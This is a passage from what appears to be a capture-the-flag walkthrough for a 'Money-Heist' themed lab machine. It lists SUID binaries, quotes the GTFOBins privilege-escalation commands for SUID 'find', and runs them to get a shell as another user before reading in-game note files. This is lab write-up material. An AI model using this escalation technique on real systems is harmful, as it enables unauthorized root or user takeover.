 -rwsr-xr-x 1 root root 419K May 27  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 35K Mar  6  2017 /sbin/mount.cifs



I see here three interesting permission here
*/bin/sed*
*/usr/bin/find*
*/usr/bin/gdb*

We can get the exploit of these permission through a website GTFObin [https://gtfobins.github.io/]
Let's go and search there about find command..

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- ```
    sudo install -m =xs $(which find) .
    
    ./find . -exec /bin/sh -p \; -quit
    ```

let's run `./find . -exec /bin/sh -p \; -quit` 

arturo@Money-Heist:~$ find . -exec /bin/sh -p \; -quit 
$ whoami
denver
$ cd /home      
$ ls
arturo  denver  nairobi  tokyo
$ cd denver
$ ls
note.txt  secret_diary
$ cat note.txt

================================================================
Denver to others:

        DAMN it!!!! How Arturo gets the Phone ?
        I caught him when he tried to leak our identity in police headquater!! 
        Now I keep him in other room !!

=================================================================

$ cat secret_diary

They all understimate me, mainly Nairobi and Tokyo,  they think only they can lead the team and I can't. 
Tokyo is like Maserati you know. But I hate both of them,
Now I leave a thing on browser which should be secret, Now Nairobi will resposible for this...

/BankOfSp41n/0x987654/

From the secret_diary we get a directory let's try going into it....

After going into it i found this..
Don't trust anyone so quickly, until can see everything clearly!!!
